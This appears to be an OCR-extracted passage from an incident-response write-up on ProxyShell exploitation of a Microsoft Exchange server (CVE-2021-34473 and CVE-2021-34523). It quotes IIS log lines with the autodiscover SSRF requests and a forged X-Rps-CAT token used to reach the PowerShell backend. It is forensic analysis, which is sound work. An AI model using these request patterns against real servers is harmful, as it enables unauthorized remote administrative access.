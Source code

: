 ```csharp
 ***2021-03-03 02:13:48 10.10.4.102 POST /autodiscover/autodiscover.json @fucky0u.edu/mapi/emsmdb/?=&Email=autodiscover/autodiscover.json%3F@fucky0u.edu&CorrelationID=<empty>;&cafeReqId=3341f5-feerd-4b84-a736-bd1b3245df; 443 -Mozilla/5.0+XXXXXXXXX+(KHTML,+like+Gecko)+Chrome/92.xxxxxx1+Safari/xxx.36. - 200 0 0 64200 0 0 28***
```

```csharp
***2021-03-03 15:14:03 10.10.4.102 POST /autodiscover/autodiscover.json @fucky0u.edu/mapi/emsmdb/?=&Email=autodiscover/autodiscover.json%3F@fucky0u.edu&CorrelationID=<empty>;&cafeReqId=3341f5-feerd-4b84-a736-bd1b3245df; 443 -Mozilla/5.0+XXXXXXXXX+(KHTML,+like+Gecko)+Chrome/92.xxxxxx1+Safari/xxx.36. - 200 0 0 64 - 200 0 0 16***
```

```csharp
***2021-03-03 15:15:39 10.10.4.102 POST /autodiscover/autodiscover.json @fucky0u.edu/mapi/emsmdb/?=&Email=autodiscover/autodiscover.json%3F@fucky0u.edu&CorrelationID=<empty>;&cafeReqId=3341f5-feerd-4b84-a736-bd1b3245df; 443 -Mozilla/5.0+XXXXXXXXX+(KHTML,+like+Gecko)+Chrome/92.xxxxxx1+Safari/xxx.36. - 200 0 0 64 200 0 0 32***
```

---

## ****CVE-2021-34523****

The malicious actor exploited the vulnerability **CVE-2021-34523** on exchange server to downgrade  the privileges of the Exchange PowerShell Backend, and this gives the malicious actor the ability to execute powershell remotely as administrator. This feature is natively built into Microsoft Exchange which is considered an administrative tool. However, the **CVE-2021-34473** grants access to the ‘NT **AUTHORITY/SYSTEM**’ user which doesn’t have a mailbox which is needed for the PowerShell backend.  Therefore, the malicious actor utilized “Hamad@darksys.com” mailbox to use the Powershell backend.

Moreover, the PowerShell backend checks for the “**X-CommonAccessToken**” header in the incoming requests. If the header does not exist, another method is utilized to obtain a “**CommonAccessToken**”. This method checks for the “X-Rps-CAT” parameter in the incoming request, and if present, this confirms it is a valid **CommonAccessToken**. With the previously collected information on the target mailbox or default information from built-in mailboxes, passing of a valid **X-Rps-CAT** value is trivial.

By passing this value to the PowerShell backend with the previously successful access token, a malicious actor can downgrade from the **NT AUTHORITY/SYSTEM** account to the target user Hamad@darksys.com”. The following table demonstrates exploitation evidence of the exploit being used from the (darksys-exch) IIS log.

Therefore, the malicious actor utilized “Hamad@darksys.com” mailbox to use the Powershell backend command as following:

```csharp
***CAT=VgHvv71UB1dpbmRvd3ND77+9QQVCYXNpY0xIYW1hZEBkYXJrc3lzLmNvbSxTLTEtNS0yMS00MzQ1MzQ1MzQ1My00MzU0MzUzNDUtMTQ4MjAyNzEyOS01MDBHBO+/ve+/ve+/vQfvv73vv73vv70HUy0xLTEtMAfvv73vv73vv70HUy0xLTUtMgfvv73vv73vv70IUy0xLTUtMTEH77+977+977+9CFMtMS01LTE=&Email=autodiscover/autodiscover.json%3F@fucky0u.edu&CorrelationID=<empty>;&cafeReqId=fcafeReqId=3341f5-feerd-4b84-a736-bd1b3245df***
```

```csharp
***2021-03-03 15:20:53 10.10.4.102 POST /autodiscover/autodiscover.json @evil.corp/powershell/?X-Rps-CAT=CAT=VgHvv71UB1dpbmRvd3ND77+9QQVCYXNpY0xIYW1hZEBkYXJrc3lzLmNvbSxTLTEtNS0yMS00MzQ1MzQ1MzQ1My00MzU0MzUzNDUtMTQ4MjAyNzEyOS01MDBHBO+/ve+/ve+/vQfvv73vv73vv70HUy0xLTEtMAfvv73vv73vv70HUy0xLTUtMgfvv73vv73vv70IUy0xLTUtMTEH77+977+977+9CFMtMS01LTE=&Email=autodiscover/autodiscover.json%3F@fucky0u.edu&CorrelationID=<empty>;&cafeReqId=fcafeReqId=3341f5-feerd-4b84-a736-bd1b3245df***
```
